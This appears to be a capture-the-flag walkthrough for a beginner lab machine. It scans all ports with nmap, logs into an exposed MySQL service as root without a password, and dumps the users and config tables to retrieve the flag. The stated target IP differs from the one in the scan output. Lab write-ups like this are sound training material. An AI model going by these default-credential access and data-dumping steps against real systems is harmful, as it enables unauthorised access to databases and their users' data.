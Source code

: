 #veryeasy 
#sql 
#mariadb

**Reconnaissance**
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are 65534 closed tcp ports (connection refused) and one open port, `mysql`, which is running a MySQL database service.


```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-21 14:27 CET
Nmap scan report for 10.129.87.79
Host is up (0.054s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
```

**MYSQL**
Since we found that there is a mysql database running we perform a research to check if there is any default credentials.
It seems that the default user could be root, so we try to access by running 


We try to connect to the MySQL database service using the default user (`root`) and the target IP address, the command looks like `mysql -u root -h $TARGET`. The output shows that the host is up and running. Once in we are able to list the databases using the `SHOW DATABASES;` command. We observe that there are four databases: `htb`, `information_schema`, `mysql`, and `performance_schema`
```
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,052 sec)
```
Of the 4 databases the one that catch our attention is htb because it seems like a custom one, so we select it using the `use htb;` command to gain access to its tables. We list the tables in the `htb` database using the `SHOW TABLES;` command. We observe that there are two tables: `config` and `users`.
```
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0,055 sec)
```

We select all rows from the `users` table using the `SELECT * FROM users;` command. The output shows that there are four rows, each containing information about a user account.
```
+----+----------+------------------+
| id | username | email            |
+----+----------+------------------+
|  1 | admin    | admin@sequel.htb |
|  2 | lara     | lara@sequel.htb  |
|  3 | sam      | sam@sequel.htb   |
|  4 | mary     | mary@sequel.htb  |
+----+----------+------------------+
4 rows in set (0,045 sec)
```
We select all rows from the `config` table using the `SELECT * FROM config;` command. The output shows that there are seven rows, each containing information about a configuration setting.
```
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
7 rows in set (0,060 sec)
```
And we finally have found the flag value.